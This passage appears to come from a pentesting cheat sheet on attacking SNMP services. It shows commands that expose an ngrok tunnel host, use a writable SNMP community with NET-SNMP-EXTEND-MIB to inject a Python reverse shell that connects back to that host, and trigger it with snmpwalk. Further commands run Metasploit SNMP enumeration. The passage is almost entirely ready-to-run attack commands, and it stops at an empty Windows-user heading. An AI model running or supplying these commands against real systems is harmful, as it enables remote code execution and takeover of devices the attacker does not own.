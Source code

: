 {% hint style="info" %}
Define ENV Ngrok
{% endhint %}

```bash
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
```

{% hint style="info" %}
Inject RCE
{% endhint %}

```bash
snmpset -m +NET-SNMP-EXTEND-MIB \
        -v 2c \
        -c SuP3RPrivCom90 $TARGET 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"$NGHOST\",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

{% hint style="info" %}
Execute Command
{% endhint %}

```bash
snmpwalk -v2c -c SuP3RPrivCom90 $TARGET NET-SNMP-EXTEND-MIB::nsExtendObjects
```

#### [Metasploit](https://www.metasploit.com/)

{% hint style="info" %}
Enumerate SNMP Public
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/snmp/snmp_enum;
    set RHOSTS $WEBSITE;
    run;
    exit"
```

{% hint style="info" %}
Enumerate SNMP Private
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/snmp/snmp_enum;
    set RHOSTS $WEBSITE;
    set COMMUNITY private;
    run;
    exit"
```

{% hint style="info" %}
Enumerate Windows Users
{% endhint %}
